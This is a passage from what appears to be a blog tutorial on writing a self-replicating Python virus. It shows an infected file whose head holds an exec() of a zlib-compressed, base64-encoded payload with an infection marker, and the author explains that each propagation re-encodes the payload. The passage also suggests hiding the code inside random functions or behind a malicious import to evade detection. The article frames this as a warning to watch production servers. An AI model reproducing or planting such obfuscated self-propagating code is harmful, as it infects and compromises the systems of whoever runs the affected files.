 ```bash
exec("import zlib\nimport base64\nexec(zlib.decompress(base64.urlsafe_b64decode(b'eNqVWEtv20YQPku_YksfTDUKwX3vFnCPPfYUoIc4IChxabOWSIGk4rhB_3tn9iFLfrSpgVgydzj8ZuabmY-5IlaUVJvlFdm4u67_qI2rqZFlK0xDt9SUrOXGNBtDlTVtUy6XYGqUNlQs_XeqBVd62e0PwziTTT05JfwBo1zRdP1uN2z8VcWsNiJdvq-n-123iY7gBptOun46uO0cPCkuGEsnw-QvCqv46bFj3TfDPrhRQojTwV_Ju7WA0wbIRjOm5LJxLblzc7Ud-tn1czW0VdvtXI6_Vr94S62FgXAWTT3X5Ib8PvTOX-faYNAEfq7I6Obj2JP53pHoigwtqQn6CfitltQsF4_dfE-Gg-v9I9YkG7MVqSeyf_IPDo-kEKphy0V6ZjwsRlc3u653U76KASlZxhrIUlGqlouIBO8MydaUgs0iYDbSQtFeRt21Vde3kOp6E2Nf-7LEDFBemvIHAiVDv3siXUs6X9X-GrjgXE-Cb9eQJxeKKaSxUMwU3rsFCJXipjSxaFJCAMtFO4wE8wCefaABpmSGWg1ZAwSIHk_RKpxyJa2FexcpQ6dCMq41sDRRRJX8dRalYUKV0UZorplP4rCZtsfR5R4E2TzNblqRj7-Gb-G5SjCpVcxetId8TTMUc4-587aQzP1hdNPU9XeYPuAycf12aOLfEMpZWxkpUkUi0HBYHMfdVLeu2ijh73Y5kr9Izj3ONbGrkFltKaYzBFUa8IgxzdBIE2R4XwGIKiKuvnbjcaq8y-evkR9cWF6mEE-3T54k3pigMakbH8007F1s1m6bSDSt38oAHH514_xmDii1JVRk0bvHM3DAps9fQsWgqEpdcuXZLgBnWmkkzKWPoj5AfzZ5dkWyD1ioPKAt8AP-3bmclv5ntfpAsts-C-nkVmuj3nXnQZzbS0qljumnMIGBg4uY7uYypEQzT5U8y4o_h67PLx-zWpPr49x-NNexulaX1jxT-Q3PwcxwbmVAoQ0wm3oWtB0UH5twquYhToe86Ub4GMYnwJQVWSq_VUbCg678TWSAso9-HiAD6pls654cBqxyV-9gQGzc80SIpWJMihPSz36WYN38F6gbbo4Cf-XZz8XhKVt9ia1VKpXmOewmrjz06bjfD321va8HGJSx0qWMGJ9JeaifdkPdxJVkGNRicRi7fs6zP4Ct0KZTt31Yk_a4fQCox0Pk5P6w67Y1oL_to51_1Jo8OozVTz3icx0LzWDhmYhTc-i5kOKY1DBuXzWVkQZ7HBAHO5wZ0AiYGVwF5BPEMQ7HGVmF-8QH5hOGKP0Qvp5IP7wxg9fJ5ekWv5VqAD3Nw55Az03d0ONwumzhEEHJYXAsF37E3qT1Xewb6UMp4uDJPBmz1aq4d9-a7s5Nc9xaRkCt4iyVVnIoG47sMERvfmgvpdWsDGNAnHfa5v9MsrhDYSLgjoCDeld99WRHrrtvbpvfZmeC4va2v5A78Lc38vO2caeJ-3ow4yHm5wNOljeArz5A0la32SoLmEQpYKvFTqO6xAnzSkU8BhWRqnymJTSIBCFx710cFo9jNwOK2z6pPph1vqRhRMHHRRL81SvYSc1HPDuzTMNPMvneY4JmwfoGY-hbwSMDmGXCmJMkOatOLLK1QjDfuieaQ8pGVB4nuofJ8XLjrMP86aYoV4AUGzc_uuAlqlgJcxydhyR8x8D-9j7xHgw3XprruykuDa5K4P8z0gp65Yb8Vu-m4JRKwTk7tzhbS0YoEWeB0tKKZPZGOw1Tcajn-wI51Nd7l1c-p1W1-u8mg66iHOoRn_6WxDp5izwDEZT2gKKgcS535_PWxNrhKTZtdmJPIEwK5EJ6WcgG99LrZc4-jceYstIqGlUeaHqQ3MH_xQ1xlHNjcZSfe3t3x0IpTNpuSiqmTrATk98DrSXz1v9SZ2ENQ5yLDWi5h_A8q0AeplcMKDA9rbUXe1dSZniyBDmnIkpuBLQr4pthzx5g0c-JLMJGlSo1Z8AcMAhYhfIaeeHl-di5r-6l9mpHmOvnrXPaB9N27A7xHYuDCnzJ25dNGUWD5FJFwMxvXnj4bhge_N6-kABDfFZ8IdSGlYFZabu_KTVS8xvQJF7Tv7Mso3oSHCgRyabhNQ_hbEFt-JgvFr2C_gOHlyIhHYn0pkEhPpAk7tvWHeYoczSscZQI9TTFbQGX4tuXshLU1hJCQYkT-6QUQD5E0ridmx05TpBvbOQp1GPv9qClgnMJwkuEvHSBiNDKKHmAbfmqeHBP8JHex2DpYcZRcHdt3n0uv5Cfbsh1dZ0MhKHMBgP88ZvpGlCQ739fF7gR6znv0lsAcLZkkYggkzj0Fpp2IQjIrYqpNajyQ-f8wH8R_APeFJAZ')))")
# end-8d35108ffe2ad173a697734a3e9938e1
print("hello world")
```

Look at that, it's not so easy to be read now, right? And every infection is different than the other one! Moreover, every time the infection is propagated, the compressed byte64 virus is compressed and encoded again and again. 

And this is just a simple example of what one could do... for example, the virus could open the target and put this piece of code at the beginning of a random function, not always at the beginning of the file, or put it in another file and make just a call to this file with a malicious `import` statement or so... 

## To sum up

In this article, we have seen that writing a computer virus in Python is a trivial operation, and even if it's probably not the best language to be used for writing viruses... it's worth keeping your eyes wide open, especially on a production server. :)

Happy coding!

D.
